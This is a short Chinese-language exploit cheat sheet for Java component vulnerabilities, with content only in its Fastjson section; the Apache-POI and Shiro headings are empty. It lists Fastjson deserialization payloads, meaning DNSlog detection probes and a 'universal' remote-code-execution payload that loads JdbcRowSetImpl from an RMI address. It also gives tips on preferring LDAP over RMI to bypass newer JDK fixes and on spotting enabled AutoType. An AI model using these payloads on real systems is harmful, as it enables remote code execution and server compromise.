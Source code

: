 

# JAVA组件漏洞



- [Fastjson](#Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## 1. Fastjson

### 	1.1 版本 <= 1.2.48

### 		1.1.1 回显

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### 		1.1.2  RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 		1.1.3 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了
LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了
LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制
当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## 2. Apache-poi

## 3. Shiro
